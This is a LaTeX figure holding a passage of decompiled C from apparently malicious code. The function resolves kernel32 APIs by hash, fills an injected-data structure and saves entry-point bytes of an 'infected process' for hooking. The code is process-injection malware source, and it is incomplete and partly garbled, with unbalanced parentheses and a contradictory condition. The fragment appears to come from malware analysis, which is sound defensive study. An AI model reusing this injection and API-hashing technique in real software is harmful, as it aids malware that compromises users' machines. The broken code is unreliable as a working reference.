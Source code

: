 \documentclass[times,11pt,fullpage]{article}
\begin{document}
\begin{figure}
\scriptsize
\begin{verbatim}
int __fastcall Kernel32PE(
      __in DWORD InjectedMemory_MZ_2B8, 
      __in PFABRICE2 pGenericTable, 
      __in DWORD ProcessId)
{
  DWORD InfectedProcessEntryPointAddr; 
  struct _INJECTEDDATA InjectData;
  PINJECTEDDATA pInjectedData; 
  DWORD result; 
  PRTL_GENERIC_TABLE GenTable; 
  int v14; 
  DWORD HookJump; 
  int v16; 
  PEDataPtr pPEData; 
  PIMAGE_DOS_HEADER pBaseAddress;

  HookJump = pGenericTable->Entrypoint;
  InfectedProcessEntryPointAddr = pGenericTable->AddressOfEntrypoint;
  pInjectedData = *(PINJECTEDDATA *)(pGenericTable->InjectedMemoryData);

  pBaseAddress=(PIMAGE_DOS_HEADER)(InjectedMemory_MZ_2B8 + 4);
  result = ParsePE((PEDataPtr)&pPEData, pBaseAddress,1);
  if ( !result )
  {
    GetGenericTableFunc(((PRTL_GENERIC_TABLE)&GenTable);
    RTL_DeleteElement(ProcessId, GenTable);
    pInjectedData->Imagebase        = *(DWORD *)(InjectedMemory_MZ_2B8 + 4);
    pInjectedData->VirtualAlloc     = GetApiFromKernel32((PEDataPtr)&pPEData, 0xC846B3E9);   // VirtualAlloc
    pInjectedData->VirtualFree      = GetApiFromKernel32((PEDataPtr)&pPEData, 0x90763FCD);   // VirtualFree
    pInjectedData->GetProcAddress   = GetApiFromKernel32((PEDataPtr)&pPEData, 0x9BD78C29);   // GetProcAddress
    pInjectedData->GetModuleHandleA = GetApiFromKernel32((PEDataPtr)&pPEData, 0x228078C9);   // GetModuleHandleA
    pInjectedData->LoadLibraryA     = GetApiFromKernel32((PEDataPtr)&pPEData, 0x5BB5AC3D);   // LoadLibraryA
    pInjectedData->LoadLibraryW     = GetApiFromKernel32((PEDataPtr)&pPEData, 0x5BB68B55);   // LoadLibraryW
    pInjectedData->lstrcmpA         = GetApiFromKernel32((PEDataPtr)&pPEData, 0xC688895D);   // lstrcmpA
    pInjectedData->lstrcmpiA        = GetApiFromKernel32((PEDataPtr)&pPEData, 0xE7725B89);   // lstrcmpiA  
    pInjectedData->GetVersionExA    = GetApiFromKernel32((PEDataPtr)&pPEData, 0x0747F9B5);   // GetVersionExA
                             result = GetApiFromKernel32((PEDataPtr)&pPEData, 0x0C084DF8);   // DeviceIoControl
    pInjectedData->DeviceIoControl = result;
    if ( !pInjectedData->VirtualAlloc == 0 )
    {
      if ( pInjectedData->VirtualAlloc
        && pInjectedData->VirtualFree
        && pInjectedData->GetProcAddress
        && pInjectedData->GetModuleHandleA
        && pInjectedData->LoadLibraryA
        && pInjectedData->LoadLibraryW
        && pInjectedData->lstrcmpA
        && pInjectedData->lstrcmpiA
        && pInjectedData->DeviceIoControl )
      {
        pInjectedData->EntryPoint1stDword = *(DWORD *)InfectedProcessEntryPointAddr;
        pInjectedData->EntryPoint2snDword = *(DWORD *)(InfectedProcessEntryPointAddr + 4);
        pInjectedData->EntryPoint3rdDword = *(DWORD *)(InfectedProcessEntryPointAddr + 8);


\end{verbatim}
\end{figure}
\end{document}
